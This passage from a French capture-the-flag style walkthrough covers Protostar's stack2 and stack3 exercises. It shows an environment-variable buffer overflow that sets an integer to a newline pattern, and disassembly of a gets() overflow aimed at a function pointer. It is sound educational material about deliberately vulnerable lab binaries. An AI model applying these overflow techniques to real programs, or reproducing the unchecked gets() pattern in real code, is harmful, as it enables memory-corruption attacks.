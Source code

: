 La valeur de l'entier écrasé comme précédemment sur la stack doit être `0xd0a0d0a` soit `\n\r\n\r` correspondant à des retours à la ligne.

Bash nous jette quand on peut définir la variable :

```shellsession
$ export GREENIE=`python -c 'print "\r\n\r\n" * 20'`
: bad variable name
```

Mais on peut le faire depuis Python :

```shellsession
$ $ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40) 
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.environ["GREENIE"] = "\n\r\n\r" * 20
>>> os.system("./stack2")
you have correctly modified the variable
10496
```

## Level 3

Ici on a un exercice plus classique : la variable sur la stack correspond à un pointeur sur fonction initialisé à `null`.

Si ce pointeur n'est pas `null` la fonction pointée est appellée.

L'objectif est de faire appeller une fonction dans le programme baptisée `win()` :

```nasm
win ();
0x08048424      push    ebp
0x08048425      mov     ebp, esp
0x08048427      sub     esp, 0x18
0x0804842a      mov     dword [esp], str.code_flow_successfully_changed ; 0x8048540 ; const char *s
0x08048431      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x08048436      leave
0x08048437      ret
int main (int argc, char **argv, char **envp);
; var int32_t var_4h @ esp+0x4
; var char *s @ esp+0x1c
; var unsigned long var_5ch @ esp+0x5c
0x08048438      push    ebp
0x08048439      mov     ebp, esp
0x0804843b      and     esp, 0xfffffff0
0x0804843e      sub     esp, 0x60
0x08048441      mov     dword [var_5ch], 0
0x08048449      lea     eax, [s]
0x0804844d      mov     dword [esp], eax ; char *s
0x08048450      call    gets       ; sym.imp.gets ; char *gets(char *s)
0x08048455      cmp     dword [var_5ch], 0
0x0804845a      je      0x8048477
0x0804845c      mov     eax, str.calling_function_pointer__jumping_to_0x_08x ; 0x8048560
0x08048461      mov     edx, dword [var_5ch]
0x08048465      mov     dword [var_4h], edx
0x08048469      mov     dword [esp], eax ; const char *format
0x0804846c      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x08048471      mov     eax, dword [var_5ch]
0x08048475      call    eax
0x08048477      leave
```
